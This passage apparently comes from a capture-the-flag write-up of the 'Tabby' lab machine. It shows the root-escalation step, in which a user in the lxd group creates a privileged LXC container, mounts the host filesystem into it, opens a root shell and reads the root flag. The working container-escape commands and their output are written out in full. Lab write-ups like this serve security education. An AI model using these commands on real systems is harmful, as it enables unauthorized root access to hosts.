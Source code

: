 We can use the default values for all the options. Now we can initialize the image.

```bash
ash@tabby:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
```

The image has been successfully created. We can now mount the file-system into the container, so that we have root-access over all the files.

```bash
ash@tabby:~$ lxc config device add privesc rootfs disk source=/ path=/mnt/root recursive=true
Device rootfs added to privesc
```

The image is now fully configured and can be started.

```bash
ash@tabby:~$ lxc start privesc
ash@tabby:~$ lxc exec privesc /bin/sh
~ # whoami
root
~ # cd /mnt/root/
/mnt/root # ls
bin         home        lost+found  root        swap.img
boot        lib         media       run         sys
cdrom       lib32       mnt         sbin        tmp
dev         lib64       opt         snap        usr
etc         libx32      proc        srv         var
```

Now we have full access as root and can read root.txt.

```bash
/mnt/root/root # cat root.txt
4e0d1***************************
```

Now we just need to remove the container.

```bash
ash@tabby:~$ lxc stop privesc
ash@tabby:~$ lxc delete privesc
ash@tabby:~$ lxc image delete alpine
```

